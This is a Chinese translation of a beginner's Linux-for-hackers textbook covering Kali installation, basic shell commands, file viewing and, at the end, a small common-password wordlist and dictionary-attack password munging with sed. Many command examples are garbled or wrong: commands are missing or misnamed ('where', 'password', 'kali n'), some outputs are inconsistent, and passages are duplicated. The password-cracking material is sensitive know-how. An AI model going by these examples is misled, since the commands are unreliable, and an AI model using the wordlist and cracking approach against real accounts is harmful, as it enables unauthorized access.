`Linux` 中的 `root` 用户是无所不能的系统管理员。在这种情况下，你是一个普通用户 `kali`。你可以使用任何你认为安全的密码。如果这是互联网上的一个物理系统，我将建议你使用一个非常长且复杂的密码，以限制攻击者破解它的能力。但由于这是一个虚拟机（`VM`），人们在不先访问你的主机操作系统的情况下无法访问它，因此密码认证变得没那么重要了。请明智选择。

点击“继续”(`Continue`)，你将会被要求设置时区。设置好后继续即可。

下一个屏幕将询问关于磁盘分区的问题（分区正如其名义——它是你硬盘的一个部分或分段）。选择“引导式——使用整个磁盘”(`Guided–use entire disk`)，`Kali` 将检测你的硬盘驱动并自动设置分区。

`Kali` 会警告你，所选磁盘上的所有数据将被擦除……别担心！这是一个虚拟磁盘，而且磁盘是新的且空的，所以这实际上不会产生任何影响。点击“继续”。

`Kali` 现在会询问你是想将所有文件放在一个分区中，还是想要单独分区。如果这是一个生产系统，你可能会为 `/home`、`/var` 和 `/tmp` 选择单独分区，考虑到我们将此作为虚拟环境中的学习系统，简单地选择“位于分区中的所有文件”(`All files in partition`)是安全的。

现在，你将被要求将更改写入磁盘。`Kali` 将提示你以确认你是否想要将这些更改写入磁盘；选择“是”(`Yes`)并点击“继续”(`Continue`)（参见图 9）。


图 9：将更改写入磁盘

`Kali` 将开始安装操作系统。这可能需要一些时间，请耐心等待。现在是休息一下并去准备你喜爱的饮料了。

安装完成后，系统将提示你是否想要使用网络镜像（network mirror）。这真的没有必要，所以点击“否”(`No`)。

然后 `Kali` 将提示你是否想要安装统一启动加载程序（`GRUB`），如图 10 所示。`GRUB` 允许你选择不同的操作系统进行启动，这意味着当你启动虚拟机时，可以选择进入 `Kali` 或另一个操作系统。选择“是”(`Yes`)并点击“继续”(`Continue`)。


图 10：安装 `GRUB`

在下一个屏幕上，你将被询问是想自动还是手动安装 `GRUB`。由于某些原因，如果你选择手动，`Kali` 在安装后会挂起并显示空白屏幕。


在随后的屏幕上，选择应该安装 GRUB 引导加载程序的驱动（它可能类似于 `/dev/sda`）。点击进入下一个屏幕，它应该会告诉你安装已完成。恭喜！你已经安装了 Kali。点击“继续”。Kali 将尝试重启，你会看到几行代码在空白屏幕上闪过，最后你会看到 Kali 的登录界面，如图 11 所示。


图 11：登录界面

使用密码 `kali` 或你选择的任何密码登录 `kali`。你应该会看到 Kali 桌面，如图 12 所示。


图 12：主屏幕

你现在准备好开始你进入兴奋的黑客领域之旅了！欢迎！

# 通过 Windows 的 Linux 子系统安装 Kali

对于那些寻找不侵入性较低的方法运行 Linux 的来说，微软提供了 Windows 的 Linux 子系统（WSL）。使用它，你可以在无需安装虚拟机的情况下学习 Linux。缺点是网络功能（因此也是黑客能力）未启用。这意味着你可以学习 Linux，但无法通过此子系统研究黑客技术。尽管如此，以下是在 Windows 系统上安装 WSL 的方法。

第一步是启用 WSL。通过在命令行提示符中运行或在应用程序菜单搜索来打开 PowerShell。然后在 PowerShell 提示符下输入以下内容：

```
Enable-WindowsOptionalFeature -Online -FeatureName Microsoft-Subsystem-Linux
Do you want to restart the computer to complete this operation now?
[Y] [N] (default is Y)
```

如你所示，PowerShell 将询问你是否要重启系统以启用 WSL。按回车。

现在你已经启用了此功能并重启了系统，请安装 Kali。前往 Windows 应用商店（https://apps.microsoft.com/store/apps）。在那里，你会看到许多 Linux 发行版的图标。点击 Kali Linux，然后选择“获取”。

Kali 将开始下载。这是一个精简的、仅包含必要的 Kali 版本，所以下载会很快。完成后，系统将提示你输入用户名和密码。

你刚刚安装的精简版工具很少（取决于你对 `工具` 一字的定义）。因此，你需要下载所有的 Kali 工具。输入以下命令进行更新和升级：

```
sudo apt update
sudo apt upgrade
sudo apt install kali-linux-everything
```

现在你已经启用此功能并重启了系统，请安装 Kali。前往 Windows 应用商店（https://apps.microsoft.com/store/apps）。在那里，你会看到许多 Linux 发行版的图标。点击 Kali Linux，然后选择“获取”。

Kali 将开始下载。这是一个精简的、仅包含必要的 Kali 版本，所以下载会很快。完成后，系统将提示你输入用户名和密码。

你刚刚安装的精简版工具很少（取决于你对 `工具` 一字的定义）。因此，你需要下载所有的 Kali 工具。输入以下命令进行更新和升级：

```
sudo apt update
sudo apt upgrade
sudo apt install kali-linux-everything
```

Script 是在解释型环境中运行的一系列命令，它将每一行都转换为代码。许多黑客工具仅仅是脚本。脚本可以使用 bash 解释器或任何其他的脚本语言解释器，如 Python、Perl 或 Ruby。Python 是目前黑客中最流行的解释器。

Shell 是在 Linux 中运行命令的环境和解释器。最广泛使用的 Shell 是 bash，全称为 Bourne-again shell，但其他 Shell 包括 C shell 和 Z shell。我在本书中将专门使用 bash shell。

Terminal 是一个命令行界面（CLI）。

# 开始之旅

## 基础知识

根据我们的本性，黑客是行动者。我们想跳过冗长的理论。本章节旨在为你提供一些基础技能，让你运行起来。在这种情况下，我们不会深入探讨任何概念。

## 入门术语

在我们开始 Linux 之旅之前，我想介绍几个有助于理解后续概念的术语。

Binaries 这个术语指的是可以执行的文件，类似于 Windows 中的可执行文件。二进制文件通常位于 `/usr/bin` 或 `/usr/sbin` 目录，包括 `ps`、`cat`、`ls` 和 `ifconfig` 等工具（我们将在本章涉及这些内容）。

与 Windows 不同，Linux 文件系统是大小敏感的。这意味着 `Desktop` 和 `desktop` 是不同的，每一个都代表不同的文件或目录名。

Directory 这与 Windows 中的文件夹相同。目录提供了一种组织文件的方式。

Home 每个用户都使用自己的 `/home` 目录，这通常是创建文件的地方。

Kali Linux 是一种专门为渗透测试设计的 Linux 发行版。它预装了数百种工具，节省了你下载和安装它们的时间。

root 与几乎所有的操作系统不同，Linux 有一个为信任用户设计的管理员（超级用户）账户，它可以配置系统、添加用户和更改密码等操作。在 Linux 中，该账户被称为 `root`。作为黑客或渗透师，你经常需要使用 `root` 来管理系统。事实上，许多黑客工具要求你使用 `root` 账户。

Script 是在解释型环境中运行的一系列命令，它将每一行都转换为代码。许多黑客工具仅仅是脚本。脚本可以使用 bash 解释器或任何其他的脚本语言解释器，如 Python、Perl 或 Ruby。Python 是目前黑客中最流行的解释器。

Shell 是在 Linux 中运行命令的环境和解释器。最广泛使用的 Shell 是 `bash`，但其他 Shell 包括 C shell 和 Z shell。我在本书中将专门使用 bash shell。

Terminal 是一个命令行界面（CLI）。

# Kali 概览

一旦启动 Kali，你将看到登录界面。使用 Kali 账户用户名 `kali` 和默认密码 `kali` 进行登录（如果你之前更改过密码，请在此处使用你的新密码）。现在，你已经可以访问你的 Kali 桌面了。我们将快速查看桌面的两个最基本的方面：终端界面和文件结构。

## 终端

使用 Kali 的第一步是打开终端，这是我们在书中将使用的命令行界面。你可以在桌面的左侧找到终端图标。点击此图标打开终端。你的新终端看起来应该像图 1-1 所示。


图 1-1：Kali 终端

此终端打开了命令行环境，被称为 shell（外壳），它允许你在底层操作系统上运行命令并编写脚本。尽管 Linux 有许多不同的 shell 环境，但最流行的是 bash shell，它是许多 Linux 发行版中的默认 shell。

要更改你的密码，你可以使用 `password` 命令。

## Linux 文件系统

Linux 文件系统结构与 Windows 有些不同。Linux 在文件系统的底部没有物理驱动器（如 C: 盘），而是使用逻辑文件系统。文件结构的最顶端是 `/`，通常称为文件系统的根（root），就像一棵倒立的树（见图 1-2）。请记住，这与 root 用户是不同的概念。这些术语初看起来看起来可能让人困惑，但一旦你习惯了 Linux，它们就会很容易区分。



图 1-2：Linux 文件系统

文件系统的根 (`/`) 位于树的顶端，以下是最需要熟悉的子目录：

- `root`: 万能的 root 用户的家目录
- `/etc`: 通常包含 Linux 配置文件——控制程序何时以及如何启动的文件
- `/home`: 用户的家目录
- `/mnt`: 其他文件系统挂载或挂载到文件系统的地方
- `/media`: 通常 CD 和 USB 设备挂载或挂载到文件系统的地方
- `/bin`: 应用程序二进制文件（相当于 Microsoft Windows 中的可执行文件或 macOS 中的应用程序）所在的地方
- `/lib`: 存放类似于 Windows DLL 的库（共享程序）的地方

在本书中，我们将花更多时间研究这些关键目录。理解这些一级目录对于从命令行导航文件系统至关重要。

在开始之前，有一点很重要：在执行例行任务时你不应该以 root 身份登录，因为当你以 root 身份登录时，任何攻击你系统的人（黑客有时也会被黑客）都会立即获得 root 权限，从而“拥有”你的系统。在启动普通应用程序、浏览网页、运行 Wireshark 等工具时，请以普通用户身份登录。对于你在书中将完成的练习，保持 root 身份登录应该是可以。

# Linux 基础命令


首先，让我们来看一些帮助你在 Linux 中快速运行起来的基础命令。

## 使用 `pwd` 找到位置

与在 Windows 或 macOS 等图形用户界面 (`GUI`) 环境中工作不同，Linux 命令行并不总是明确显示你当前处于哪个目录。要导航到某个目录，你通常需要知道自己当前在哪里。打印工作目录命令 `pwd` 会返回你在目录结构中的位置。

在终端中输入 `pwd` 来查看你所处的位置：

```
kali> pwd
home/kali
```

在这种情况下，Linux 返回了 `/home/kali`，告诉我在 kali 用户的目录下。因为你启动 Linux 时是以 kali 身份登录的，所以你也应该在 kali 用户的目录下，该目录位于文件结构顶端 (`/`) 的下方两层。

如果你在另一个目录，`pwd` 将返回该目录名称。

## 使用 `whoami` 检查登录身份

在 Linux 中，“万能”的超级用户或系统管理员名为 `root`，它拥有添加用户、更改密码、更改权限等所需的所有系统权限。显然，你不希望任何人都有进行这些更改的能力；只有值得信任且对操作系统有适当知识的人才能这样做。作为一个黑客，你通常需要所有权限来运行所需的程序和命令（许多黑客工具除非你有 `root` 权限将无法工作），你可能想要以 `root` 身份登录。

如果你忘记了自己是以 `root` 还是其他用户登录的，可以使用 `whoami` 命令查看你以哪个用户身份登录：

```
kali> whoami
kali
```

如果我是以另一个用户（例如我的个人账户）登录的，`whoami` 将返回我的用户名实例，如下：

```
kali> whoami
OTW
```

同样重要的是，在执行例行任务时你不应该以 `root` 身份登录，因为任何攻击你系统的人（是的，黑客有时也会被黑客）都会立即获得那些 `root` 权限。在启动普通应用程序、浏览网页、运行 `Wireshark` 等工具时，请以普通用户身份登录。

## 导航 Linux 文件系统

从终端导航文件系统是一项基本的 Linux 技能。为了完成任何工作，你都需要能够移动以寻找其他目录中的应用程序、文件和目录。在基于 GUI 的系统中，你可以直观地看到目录，但当你使用命令行界面时，结构完全基于文本，你使用某些命令来导航文件系统。

## 使用 `cd` 切换目录

要从终端更改目录，使用切换目录命令 `cd`。例如，这里是如何切换到存储配置文件的 `/etc` 目录的：

```
kali> cd /etc
kali:/etc>
```

提示变为 `kali:/etc`，表示我们正处于 `/etc` 目录。我们可以通过输入 `pwd` 来确认这一点：

```
kali:/etc> pwd
etc
```

要在文件结构中向上移动一级（朝文件结构的根，即 `/`），我们使用 `cd` 后跟两个点 (`..`)，如下所示：

```
kali:/etc> cd ..
kali> pwd
/
```

这使我们从 `/etc` 向上移动一级。要从任何地方回到根目录，你可以使用 `cd /`：

```
kali> cd /
kali:/
```

## 使用 `ls` 列出目录内容

要查看目录的内容，我们可以使用 `ls` 命令。这与 Windows 中的 `dir` 命令非常相似。

```
kali> ls
Debian
Desktop
Documents
Downloads
```

此命令列出文件和目录。要获取有关文件和目录的更多信息（例如权限、所有者、大小和修改时间），你可以添加 `-l` 选项（`l` 代表 long），这通常被称为长列表显示。让我们在这里试一下：

```
kali> ls -l
total 32
drw-r-- 1 kali 4096 Dec 5 11:15 Debian
drw-r-- 2 kali 4096 Dec 5 11:15 Desktop
drw-r-- 3 kali 4096 Dec 9 13:10 Documents
drw-r-- 18 kali 4096 Dec 9 13:43 Downloads
--snip-
drw-r-- 1 kali 4096 Dec 5 11:15 Videos
```

如你所见，`ls -l` 为我们提供了更多信息，例如对象是文件还是目录、链接数、所有者、组、大小、创建或修改时间以及名称。我通常在 Linux 中列出时添加 `-l` 选项，但人各有异。我们将在第5章详细讨论 `ls -l`。

Linux 中的某些文件是隐藏的，简单的 `ls` 或 `-l` 命令无法显示。要显示隐藏文件，添加小写的 `-a` 选项，如下：

```
kali> ls -la
```

如果你没有看到预文件，可以尝试给 `ls` 添加标志。在使用多个标志时，可以将它们合并为一个，正如我们在这里使用 `-la` 代替 `-a`。

## 获取帮助

Linux 中的几乎每个命令、应用程序或实用程序都有一个专用的帮助文件，提供使用指南。例如，如果你需要帮助使用最好的无线破解工具 `aircrack-ng`，我只需输入 `aircrack-ng` 后跟 `--help` 命令：

```
kali> aircrack-ng --help
```

注意双横杠。Linux 的惯是在双横杠（`--`）之前使用单词选项，在单横杠（`-`）之前使用单字母选项（如 `-h`）。

当你输入此命令时，你应该能看到该工具的简短描述以及如何使用的指南。在某些情况下，你可以使用 `-h` 或 `?` 来获取帮助文件。例如，如果我需要帮助来使用黑客最常用的端口扫描工具 `nmap`，我会输入以下内容：

```
kali> nmap
```

遗憾的是，尽管许多应用程序支持这三个选项（`--help`、`-h` 和 `-?`），但不能保证你正在使用的应用程序也支持它们。因此，如果一个选项不起作用，请尝试另一个。

## 使用 `man` 引用手册页

除了帮助开关外，大多数命令和应用程序都有一个手册（`man`）页，其中包含更多详细信息，例如命令或应用程序的描述和摘要。你只需在命令、实用程序或应用程序之前输入 `man` 即可查看手册页。例如，要查看 `aircrack-ng` 的手册页，你将输入以下内容：

```
kali> aircrack-ng
NAME
    aircrack-ng -一个 802.11 WEP / WPA-PSK 密钥破解器
SYNOPSIS
    aircrack-ng [options] .cap / .ivs file(s)
DESCRIPTION
    aircrack-ng 是一个 802.11 WEP 和 WPA/WPA2 破解程序。一旦使用 airdump-ng 捕获了足够的加密包，它就可以恢复 WEP 密钥。aircrack-ng 的这部分通过两种基本方法确定 WEP 密钥。第一种方法是通过 PTW 方法（Pyshkin, Tews, Weinmann）。PTW 方法的主要优势是破解 WEP 密钥所需的数据包非常少。第二种方法是 FMS/KoreK 方法。KoreK 结合了各种统计攻击来破译 WEP 密钥。此外，程序还提供了一种字典方法来确定 WEP 密钥。对于破解 WPA/WPA2 共享密钥，必须使用词列表（文件或 arolist-ng）。
```

这会打开 `aircrack-ng` 的手册，为你提供比帮助屏幕更详细的信息。你可以使用 `ENTER` 键滚动查看此手册文件，也可以分别使用 `PAGE DOWN` 和 `PAGE UP` 键进行向上或向下翻页；你也可以使用方向键。要退出，只需输入 `q`（`quit`），你就会返回命令提示符。

## 寻找东西

在你熟悉 Linux 之前，寻找路径可能会让你感到沮丧，但掌握一些基础命令和技巧将对让命令行变得更加友好非常有帮助。这些命令帮助你从终端定位物品。

## 使用 `locate` 搜索

最易于使用的命令可能是 `locate`。其后跟着一个表示你想查找的内容的关键词，该命令将遍历整个文件系统并定位该词的所有出现处。

例如，查找 `aircrack-ng`，输入如下：

```
kali locate aircrack-ng
/usr/bin/aircrack-ng
/usr/share/applications/kali-aircrack-ng.desktop
/usr/share/desktop-directories/05-1-01-aircrack-ng.directory
--snap-
/var/lib/dpkg/info/aircrack-ng.md5sums
```

然而，`locate` 命令并不是完美的。有时 `locate` 的结果会让你 overwhelming，提供过多的信息。此外，`locate` 使用的数据库每天更新一次，所以如果你几分钟或几小时前创建了一个文件，它第二天可能不会出现在此列表中。了解这些基础命令的缺点是，这样你可以更好地决定何时使用每种命令。

要更新 `locate` 命令使用的数据库，请输入以下内容：

```
kali sudo updatedb
```

注意，我们在 `updateddb` 命令前加上了 `sudo`。这很重要。如果一个命令需要 `root`（超级用户）权限（如 `updateddb`），而你以普通用户身份登录，可以使用 `sudo` 命令后输入密码为命令提供 `root` 权限。


## 使用 `where` 寻找二进制文件

如果你正在寻找一个二进制文件，可以使用 `where` 命令来定位它。该命令不仅返回二进制文件的位置，如果可用，还会返回它的源和主页。这是一个示例：

```
kali where aircrack-ng
aircrack-ng: /usr/bin/aircrack-ng /usr/share/man/man1/aircrack-ng.1.gz
```

在这种情况下，`where` 返回了 `aircrack-ng` 的二进制文件和手册页，而不是 `aircrack-ng` 词的所有出现处。你不觉得这高效得多且更具启发性吗？

## 使用 `which` 在 `PATH` 变量中寻找二进制文件

该命令更加具体：它只返回 Linux 中 `PATH` 变量中的二进制文件位置。我们将在第 7 章更深入地查看 `PATH` 变量，但目前只需知道 `PATH` 包含了操作系统查找你执行的命令的目录即可。例如，当我们在命令行中输入 `which aircrack-ng` 时，系统会在 `PATH` 变量列出的目录中查找 `aircrack-ng`：

```
kali> which aircrack-ng
/usr/bin/aircrack-ng
```

## 使用 `find` 执行更强大的搜索

`find` 命令是搜索工具中非常灵活的。它可以在指定的目录中进行搜索，并支持各种参数，包括文件名、创建或修改日期、所有者、权限和大小。这里 `find` 的基本语法：

```
find directory options expression
```

所以，如果我想在根目录下搜索一个名为 `apache2` 的文件（普通文件），我会输入：

```
kali> find / -type f
```

首先，我指定搜索的目录，这里为 `/`。然后我指定文件类型，这里为 `-f`。最后，我给出搜索的文件名，这里为 `apache2`。这是我的搜索结果：

```
kali> find / -type f -name apache2
/usr/lib/apache2/mpm-it/apache2
/usr/lib/apache2/mpm-event/apache2
/usr/lib/apache2/mpm-worker/apache2
/usr/lib/apache2/mpm-prefork/apache2
/etc/cron.daily/apache2
/etc/logrotate.d/apache2
/etc/init.d/apache2
/etc/default/apache2
```

`find` 命令从文件系统的顶部（`/`）开始，遍历每个目录查找 `apache2`，并列出所有实例。

正如你想象的，遍历每个目录的搜索可能会很慢。加快速度的方法是在你预期文件所在的目录进行查找。例如，如果我们正在寻找一个配置文件，可以在 `/etc` 目录开始搜索，Linux 将搜索其子目录。让我们尝试：

```
kali> find /etc -type f -name apache2
/etc/init.d/apache2
/etc/logrotate.d/apache2
/etc/cron.daily/apache2
/etc/default/apache2
```

这种快得多的搜索在 `/etc` 目录及其子目录中找到了 `apache2` 的出现。

注意的是，与其他搜索命令不同，`find` 仅显示名称匹配。如果文件 `apache2` 有扩展名，搜索将无法匹配。我们可以通过使用通配符来弥补这一局限，通配符允许我们匹配多个字符。通配符有几种不同的形式：`*`、`?` 和 `[]`。假设我们正在对包含 `cat`、`hat`、`what` 和 `bat` 文件的目录进行搜索。`?` 通配符用于表示单个字符，所以 `?at` 能够找到 `cat`、`hat` 和 `bat`，但找不到 `what`，因为 `at` 在文件名中有两个字母。`[]` 通配符用于匹配方括号内出现的字符。例如，搜索 `[c,b]at` 会匹配 `cat` 和 `bat`，但不会匹配 `what`。最广泛使用的通配符是星号 `*`，它可以匹配任何长度的任何字符，从无到无限数量的字符。例如，搜索 `*at` 将找到 `cat`、`hat`、`what` 和 `bat`。

`grep` 命令通常用于从一个命令的输出管道传输到另一个命令时。我会在第 2 章介绍管道操作，但目前只需说 Linux（以及 Windows，也是如此）允许我们获取一个命令的输出，并将其作为另一个命令的输入。这被称为管道（piping），我们使用 `|` 命令来实现它。（在键盘上，`|` 键通常位于 ENTER 键上方。）

`ps` 命令用于显示在机器上运行的进程信息。我们将在第 6 章详细介绍这一内容，但对于这个示例，我想查看我的 Linux 系统上运行的所有进程。在这种情况下，我可以使用 `ps` `aux` 命令接 `aux` 选项来指定要显示哪些进程信息，如下：

```
kali> ps aux
```

这为我提供了该系统中所有进程的列表——但如果只想找某一个进程来查看它是否正在运行呢？

我可以通过将 `ps` 的输出管道到 `grep` 并搜索关键词来实现。例如，为了找到正在运行的哪个 `apache` 服务，我会输入以下内容：

```
kali> ps aux | grep apache2
kali 4851 0.2 0.7 37572 7668 ? Ss 10:14 0:00 /usr/sbin/apache2-k start
kali 4906 0.0 0.4 37572 4228 ? S 10:14 0:00 /usr/sbin/apache2-k start
kali 4910 0.0 0.4 37572 4228 ? Ss 10:14 0:00 /usr/sbin/apache2-k start
--snap
```

此命令告诉 Linux 显示我所有的服务，然后将其发送给 `grep`，`grep` 会输出中搜索关键词 `apache2` 然后只显示相关的输出，从而节省了我大量时间（以及我的视力）。

## 修改文件和目录

一旦你找到了文件和目录，你就会想要对它们执行操作。在本节中，我们将查看如何创建文件和目录、复制文件、重命名文件以及删除目录。

## 创建文件

在 Linux 中创建文件有许多方法，但目前我们将查看两种简单的方法。第一种是 `cat`，它是 `concatenate`（连接）的缩写，意味着将部分组合在一起（不是指你的家养猫）。`cat` 命令通常用于显示文件内容，但也可以用于创建小文件。对于创建较大的文件，最好使用 `vim`、`emacs`、`mousepad`、`edit` 或 `kate` 等文本编辑器编辑代码。

### 使用 `cat` 进行连接

`cat` 命令接文件名将显示该文件的内容，但要创建一个文件，我们在 `cat` 命令后跟一个重定向符号（用 `>` 符号表示）以及我们要创建的文件名。这是一个示例：

```
kali > hackings
Hacking is the most valuable skill set of the 21st century!
```

当你按下 ENTER 时，Linux 将进入交互模式并等待你开始为文件输入内容。这可能会让人感到困惑，因为没有提示符要求，但如果你直接开始输入，你输入到文件中的任何内容（在本例中为 `hackings`）都会记录。在这里，我输入了 `Hacking is the most valuable skill set of the 21st century!` 要退出并返回提示符，我按了 `CTRL-D`。然后，我想查看 `hackings` 文件中的内容，我输入以下内容：

```
kali cat hackingskills
Hacking is the most valuable skill set of the 21st century!
```

如果你不使用重定向符号，Linux 将拆分你的文件内容。

要向文件添加或追加更多内容，你可以使用带有双重定向符号（`>>`）的 `cat` 命令，后面接你想添加到文件末尾的任何内容。这是一个示例：

```
kali cat >> hackingskills
Everyone should learn hacking
```

Linux 再次进入交互模式，等待将内容追加到文件中。当我输入 `Everyone should learn hacking` 并按下 `CTRL-D` 时，我返回了提示符。现在，当我用 `cat` 显示该文件的内容时，我看到文件已经追加了 `Everyone should learn hacking`，如下：

```
kali hackingskills
Hacking is the most valuable skill set of the 21st century!
Everyone should learn hacking
```

如果我想用新信息覆盖文件，我只需要再次使用单次重定向，如下：


```
kali > hackingskills
Everyone in IT security without hacking skills is in the dark
kali cat hackingskills
Everyone in IT security without hacking skills is in the dark
```

如你所见，Linux 进入了交互模式，输入新文本然后返回提示符。当我再次使用 `cat` 查看文件内容时，我看到之前的文字已被最新的文本覆盖了。

## 使用 touch 创建文件

创建文件的第二个命令是 `touch`。该命令最初开发是为了让用户只需触碰文件即可更改其某些细节，例如创建或修改日期。然而，如果文件不存在，该命令默认会创建该文件。

让我们用 `touch` 创建 `newfile`：

```
kali> touch newfile
```

现在当我们使用 `ls -1` 查看目录的详细列表时，我看到创建了一个新文件 `newfile`。注意。

## 创建目录

创建目录的命令是 `mkdir`。要创建一个名为 `newdirectory` 的目录，输入以下内容：

```
kali> mkdir newdirectory
```

现在当我们使用 `ls -1` 查看目录的详细列表时，我看到创建了一个文件 `newfile`。

## 复制文件

复制文件的命令是 `cp`。这允许将文件从一个位置复制到另一个位置。要复制文件，输入以下内容：

```
kali> cp file1 file2
```

## 重命名文件

重命名文件的命令是 `mv`。这允许移动文件或重命名文件。要重命名文件，输入以下内容：

```
kali> mv oldname newname
```

## 删除文件

删除文件的命令是 `rm`。要删除文件，输入以下内容：

```
kali> rm file1
```

## 删除目录

删除目录的命令是 `rmdir`。然而，这仅在目录为空时才有效。要删除空目录，输入以下内容：

```
kali> rmdir newdirectory
```

如果你想删除目录及其内容，可以使用 `rm` 的 `-r` 选项：

```
kali> rm -r newdirectory
```

## 现在就开始玩吧！

现在你已经掌握了一些导航文件系统的基本技能，在继续之前可以玩玩你的 Linux 系统。熟悉终端最好的方法就是现在尝试你的新技能。在随后的章节中，我们将进一步、深入探索你的黑客乐场。

## 练习题

- 从根目录 (`/`) 使用 `ls` 命令探索 Linux 的目录结构。使用 `cd` 命令进入每个目录并运行 `pwd` 以验证你在目录结构中的位置。
- 使用 `whoami` 命令验证你登录哪个用户。
- 使用 `locate` 命令找到用于密码破解的字典列表。
- 使用 `cat` 命令创建一个新文件并向其追加内容。记住 `>` 将输入重定向到文件，而 `>>` 追加到文件。
- 创建一个名为 `hackirectory` 的目录，并在其中创建一个名为 `hackedfile` 的新文件。现在将该文件复制到你的 `/home/kali` 目录并将其重命名为 `secretfile`。

为了方便说明，我将使用世界上最广泛使用的 Web 服务器中的文件：`apache2`。这个免费开源的 `apache2` Web 服务器被世界上一些访问最频繁的网站使用，例如 `spotify.com`、`dropbox.com`、`netflix.com`、`tencent.com`、`bbc.com` 等许多网站。它是默认安装在我们的 Kali 系统上的（我们将在第 12 章中对 `apache2` Web 服务器进行更多操作）。

## 查看文件

如第 1 章所示，最基础的文本显示命令可能是 `cat`，但它有其局限性。使用 `cat` 显示位于 `/etc/apache2` 下的 `apache2` 配置文件 (`apache2.conf`)：

```
kali> /etc/apache2/apache2.conf
```

你的屏幕现在应该显示整个 `apache2.conf` 文件，它将一直流输出直到文件结束，如下所示，但这并不是处理该文件最方便或实用的方法：

```
LogFormat "%{Referer}i -> %p" referer
LogFormat "%{User-agent}i" agent
```

```
# Include of directories editors' and dpkg backup files,
# seeREADME.Debian details.
```

```
# Include generic snippets of statements:
IncludeOptional conf-enabled=*.conf
```

```
# Include the virtual host configurations:
IncludeOptional sites-enabled=*.conf
```

```
# vim: syntax=apache ts=4 sw=4 sts=4 srnoet
```

在接下来的章节中，我将向你展示 `head` 和 `tail` 命令，这是两种显示文件部分内容的方法，以便更容易地查看关键内容。

## 查找头部

如果你想查看文件的开头，可以使用 `head` 命令。默认情况下，该命令显示文件的前 10 行。例如，以下命令显示了 `apache2.conf` 的前 10 行：

```
kali> /etc/apache2/apache2.conf
#---------------------------------
# This is the main Apache server configuration file. It contains the
# configuration directives that give the server instructions.
# See http://apache.org/docs/2.4/ for detailed information about
# the directives and /usr/share/doc/apache2/README.Debian Debian about
# hints.
```

```
# Summary of how the Apache 2 configuration works in Debian:
# The Apache 2 web server configuration in Debian is quite different to
# upstream's suggested way to configure the web server. This is because
```

如果你想查看多于或少于默认 10 行的内容，在 `head` 之后、文件名之前使用连字符 (`-`) 关输入数量。例如，如果你想查看文件的前 20 行，将输入以下命令：

```
kali> head -20 /etc/apache2/apache2.conf
```

```
# This is the main Apache server configuration file. It contains
# configuration directives that give the server its instructions.
# See http://http.apache.org/docs/2.4/ for detailed information about
# the directives and /usr/share/doc/apache2/README.Debian about Debian
# hints.
# Summary of how the Apache 2 configuration works in Debian:
# The Apache 2 web server configuration in Debian is quite different to
# upstream's suggested way to configure the web server. This is because
# default apache2 installation attempts to make adding and removing modules,
# virtual hosts, and extra configuration directives as flexible as
# order to make automating the changes and administering the server
# possible.
```

```
# It is split into several files forming the configuration hierarchy
# below, all located in the /etc/apache2/ directory:

```

`/etc/apache2/`

|-- `apache2.conf`


你应该只看到 `apache2.conf` 的前 20 行。

## 查找尾部

`tail` 命令与 `head` 命令类似，但它用于查看文件的末尾。让我们在 `apache2.conf` 上使用它：

```
kali> tail /etc/apache2/apache2.conf
# Include of directories editors' and dpkg backup files,
# seeREADME.Debian details. 
```

```
# Include generic snippets of statements:
IncludeOptional conf-enabled=*.conf
```

```
# Include the virtual host configurations:
IncludeOptional sites-enabled=*.conf
```

```
# vim: syntax=apache ts=4 sw=4 stsnoet
```

注意，此命令显示的是文件的部分内容，而不是全部，因为像 `head` 命令一样，默认显示最后 10 行。

你可以通过在命令和文件名之间输入连字符 (`-`) 和行数来显示更多行：

```
kali tail -20 /etc/apache2/apache2.conf
# Note the use of %(X-Forwarded-For)i instead of %h is not recommended.
# Use mod_remoteip
#
LogFormat "%v:%p %h %u \%r" %s O \%{Referer}i"
LogFormat "%h %l %u \%r" %s O \%{Referer}i" ...
LogFormat "%h %l %u \%r" %s O" common
LogFormat "%{Referer} -> %h" referer
LogFormat "%{User-agent}" agent
```

```
# Include of directories editors' and dpkg backup files,
# seeREADME.Debian details. 
```

```
# Include generic snippets of statements:
IncludeOptional conf-enabled=*.conf
```

```
# Include the virtual host configurations:
IncludeOptional sites-enabled=*.conf
```

```
# vim: syntax=apache ts=4 sw=4 stsnoet
```

现在我们可以在一个屏幕上看到几乎所有的包含内容。

## 行号标记

有时，对于长文件，我们可能希望文件显示行号。由于 `apache2.conf` 超过 190 行，行号将会非常有用。这使得更容易引用更改并返回文件的同一位置。

要显示带行号的文件，我们使用 `n`（number lines）命令。输入以下命令：

```
kali n /etc/apache2.conf
181 LogFormat "%v:%p %h %u \%r" %s O \%{Referer}i"
182 LogFormat "%h %l %u \%r" %s O \%{Referer}i" ...
183 LogFormat "%h %l %u \%r" %s O" common
184 LogFormat "%{Referer} -> %h" referer
185 LogFormat "%{User-agent}" agent
```

```
# Include of directories editors' and dpkg backup files,
# seeREADME.Debian details.
```

```
# Include generic snippets of statements:
IncludeOptional conf-enabled=*.conf
```

```
190 # Include the virtual host configurations:
191 # IncludeOptional sites-enabled/*.conf
```

```
192 # vim: syntax=apache ts=4 sw=4 sts=4 snoet
```

每一行都有一个编号，使得引用更容易。注意，此命令会跳过空行。

123456789
password
iloveyou
princes
1234567
123456789
abc123

此文件包含了 Unix 和 Linux（它们是非常相似的操作系统）中常用的密码。此特定文件由最流行的黑客框架 Metasploit 使用。有关 Metasploit 的更多信息，请参阅我的书籍《Metasploit Basics for Hackers》。

你可能在信息安全课程中听别人告诉过，永远不要使用字典单词作为密码，因为很容易受到字典攻击。在字典攻击中，黑客尝试使用列表中的单词进行登录（更多字典攻击，请参阅我的书籍《Getting Started: Becoming a Master Hacker》）。通常，人们会取一个像 iloveyou 这样的字典单词或短语，并用数字替换字母字母，以创建一个更安全的密码，例如 il0veyou，其中字母 o 被替换为数字 0。这种做法被称为“混淆”（munging），它可以帮助防御字典攻击。

作为黑客，我们可能想尝试通过将用于攻击系统的密码列表中的所有字母 o 替换为数字 0 来克服这种混淆。在切换到 root 后，我们可以使用 Linux 的 `sed` 命令来实现此：

```bash
